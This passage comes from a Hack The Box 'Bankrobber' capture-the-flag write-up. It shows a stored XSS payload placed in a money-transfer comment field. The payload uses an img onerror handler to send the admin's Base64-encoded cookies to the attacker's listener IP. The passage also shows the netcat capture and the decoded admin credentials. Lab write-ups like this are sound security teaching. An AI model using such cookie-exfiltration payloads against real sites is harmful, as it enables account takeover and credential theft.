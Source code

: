We can see 3 values, `username` and `password` look to be URL encoded (`%3D` is `=`) Base64 strings. These cookies don't have the HttpOnly flag set so we can read them in JavaScript.

|Name|Value|Decoded value
|---|---|---|
|Password|THVjS29sZW4%3D|LucKolen
|Username|bHVja29sZW4%3D|luckolen
|id|10|10|

We can see that username is the lowercase version of our username and password is our password value. Getting the admin cookies should result in their credentials.

```http
POST /user/transfer.php HTTP/1.1

fromId=10&toId=1&amount=1&comment=<img+src%3dx+onerror%3dthis.src%3d"http%3a//10.10.14.16/%3fc%3d"%2bbtoa(document.cookie)+/>
```

```bash
luc@kali:~/HTB/Bankrobber$ sudo nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.154.
Ncat: Connection from 10.10.10.154:52557.
GET /?c=dXNlcm5hbWU9WVdSdGFXNCUzRDsgcGFzc3dvcmQ9U0c5d1pXeGxjM055YjIxaGJuUnBZdyUzRCUzRDsgaWQ9MQ== HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: nl-NL,en,*
Host: 10.10.14.16
```

|Value|Base64 decoded|
|---|---|
|dXNlcm5hbWU9WVdSdGFX<br>NCUzRDsgcGFzc3dvcmQ9<br>U0c5d1pXeGxjM055YjIx<br>aGJuUnBZdyUzRCUzRDsg<br>aWQ9MQ==|username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D; id=1
|YWRtaW4%3D|admin
|SG9wZWxlc3Nyb21hbnRpYw%3D%3D|Hopelessromantic

We now have the admin credentials, username `admin` and password `Hopelessromantic`.

### Login as admin

As admin we've access to the `/admin` page, this page allows us to approve transactions, search users and to run commands on the server.

